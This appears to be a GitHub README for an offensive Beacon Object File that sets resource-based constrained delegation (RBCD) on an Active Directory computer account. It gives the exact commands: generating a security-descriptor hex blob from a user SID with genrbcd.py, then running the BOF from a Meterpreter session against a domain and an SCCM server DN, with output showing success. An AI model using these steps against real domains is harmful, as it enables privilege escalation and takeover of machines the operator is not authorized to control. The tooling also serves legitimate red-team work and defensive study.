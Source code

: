 # BOF to set RBCD on target account

# Instructions

Run the `genrbcd.py` python script with the SID of the user you're delegating to

```
└─$ uv run genrbcd.py "S-1-5-21-991973810-2284695103-1193895442-1108"
010004804000000000000000000000001400000004002c000100000000002400ff010f00010500000000000515000000b251203b3fae2d88126629475404000001020000000000052000000020020000
```

Execute the BOF with three arguments:
 - target domain
 - target DN of the account you're delegating from
 - hex blob from `genrbcd.py`

```
meterpreter > execute_bof bofthedog/rbcd.x64.o --format-string zzz unsigned-sh0rt.net "CN=SCCM-SITESRV,OU=Servers,DC=unsigned-sh0rt,DC=net" "010004804000000000000000000000001400000004002c000100000000002400ff010f00010500000000000515000000b251203b3fae2d88126629475404000001020000000000052000000020020000"
Setting RBCD to: CN=SCCM-SITESRV,OU=Servers,DC=unsigned-sh0rt,DC=net
RBCD added successfully
```
